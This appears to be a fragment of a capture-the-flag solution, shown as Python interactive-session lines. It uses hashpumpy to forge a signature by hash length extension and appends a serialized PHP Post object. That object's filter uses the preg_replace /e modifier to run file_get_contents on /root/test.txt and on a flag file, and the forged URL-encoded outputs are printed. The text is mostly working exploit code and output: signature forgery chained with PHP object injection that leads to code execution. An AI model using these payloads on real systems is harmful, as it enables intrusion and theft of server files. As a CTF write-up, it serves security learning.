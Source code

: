 
# Post object with simple filter a->b (prints "" at the bottom)
add = "\n" + "O:4:\"Post\":3:{s:8:\"\x00*\x00title\";s:5:\"title\";s:7:\"\x00*\x00text\";s:1:\"a\";s:10:\"\x00*\x00filters\";a:1:{i:0;O:6:\"Filter\":2:{s:10:\"\x00*\x00pattern\";s:4:\"/a/e\";s:7:\"\x00*\x00repl\";s:1:\"b\";}}}"
h = hashpumpy.hashpump(sig, data, add, kl)
h[0]
urllib.quote_plus(h[1])

 c15852cee15169502158a75bf86c437e3bf7187e
'c15852cee15169502158a75bf86c437e3bf7187e'
'b%3A1%3B%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%60%0AO%3A4%3A%22Post%22%3A3%3A%7Bs%3A8%3A%22%00%2A%00title%22%3Bs%3A5%3A%22title%22%3Bs%3A7%3A%22%00%2A%00text%22%3Bs%3A1%3A%22a%22%3Bs%3A10%3A%22%00%2A%00filters%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A6%3A%22Filter%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00pattern%22%3Bs%3A4%3A%22%2Fa%2Fe%22%3Bs%3A7%3A%22%00%2A%00repl%22%3Bs%3A1%3A%22b%22%3B%7D%7D%7D'

b%3A1%3B%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%60%0AO%3A4%3A%22Post%22%3A3%3A%7Bs%3A8%3A%22%00%2A%00title%22%3Bs%3A5%3A%22title%22%3Bs%3A7%3A%22%00%2A%00text%22%3Bs%3A1%3A%22a%22%3Bs%3A10%3A%22%00%2A%00filters%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A6%3A%22Filter%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00pattern%22%3Bs%3A4%3A%22%2Fa%2Fe%22%3Bs%3A7%3A%22%00%2A%00repl%22%3Bs%3A1%3A%22b%22%3B%7D%7D%7D


# Post object with complex filter (/root/test.txt); only test locally
add = "\n" + "O:4:\"Post\":3:{s:8:\"\x00*\x00title\";s:5:\"title\";s:7:\"\x00*\x00text\";s:1:\"a\";s:10:\"\x00*\x00filters\";a:1:{i:0;O:6:\"Filter\":2:{s:10:\"\x00*\x00pattern\";s:4:\"/a/e\";s:7:\"\x00*\x00repl\";s:35:\"file_get_contents('/root/test.txt')\";}}}"
h = hashpumpy.hashpump(sig, data, add, kl)
h[0]
urllib.quote_plus(h[1])

'ecc4ed0ae8118a4fb80c879086d6dd1731469377'
'b%3A1%3B%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%60%0AO%3A4%3A%22Post%22%3A3%3A%7Bs%3A8%3A%22%00%2A%00title%22%3Bs%3A5%3A%22title%22%3Bs%3A7%3A%22%00%2A%00text%22%3Bs%3A1%3A%22a%22%3Bs%3A10%3A%22%00%2A%00filters%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A6%3A%22Filter%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00pattern%22%3Bs%3A4%3A%22%2Fa%2Fe%22%3Bs%3A7%3A%22%00%2A%00repl%22%3Bs%3A35%3A%22file_get_contents%28%27%2Froot%2Ftest.txt%27%29%22%3B%7D%7D%7D'

# Post object with complex filter (/home/daedalus/flag.txt)
add = "\n" + "O:4:\"Post\":3:{s:8:\"\00*\x00title\";s:5:\"title\";s:7:\"\00*\x00text\";s:1:\"a\";s:10:\"\00*\x00filters\";a:1:{i:0;O:6:\"Filter\":2:{s:10:\"\00*\x00pattern\";s:4:\"/a/e\";s:7:\"\00*\x00repl\";s:44:\"file_get_contents('/home/daedalus/flag.txt')\";}}}"
h = hashpumpy.hashpump(sig, data, add, kl)
h[0]
urllib.quote_plus(h[1])

